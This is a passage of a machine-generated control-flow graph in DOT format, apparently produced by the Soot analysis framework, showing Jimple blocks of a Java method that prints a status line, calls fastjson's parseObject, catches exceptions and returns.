[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 21:
[preds: 20 ] [succs: 22 25 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"->"Block 22:
[preds: 21 ] [succs: 23 25 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
";
    "Block 21:
[preds: 20 ] [succs: 22 25 ]
$r10 = <java.lang.System: java.io.PrintStream out>;
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 22:
[preds: 21 ] [succs: 23 25 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"->"Block 23:
[preds: 22 ] [succs: 24 25 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18);
";
    "Block 22:
[preds: 21 ] [succs: 23 25 ]
virtualinvoke $r10.<java.io.PrintStream: void println(java.lang.String)>(\"[*] Try local parsing\");
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 23:
[preds: 22 ] [succs: 24 25 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18);
"->"Block 24:
[preds: 17 20 23 ] [succs: 26 ]
goto [?= return];
";
    "Block 23:
[preds: 22 ] [succs: 24 25 ]
staticinvoke <com.alibaba.fastjson.JSON: com.alibaba.fastjson.JSONObject parseObject(java.lang.String)>(r18);
"->"Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
";
    "Block 24:
[preds: 17 20 23 ] [succs: 26 ]
goto [?= return];
"->"Block 26:
[preds: 24 25 ] [succs: ]
return;
";
    "Block 25:
[preds: 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 ] [succs: 26 ]
$r13 := @caughtexception;
r19 = $r13;
virtualinvoke r19.<java.lang.Exception: void printStackTrace()>();
"->"Block 26:
[preds: 24 25 ] [succs: ]
return;
";
}
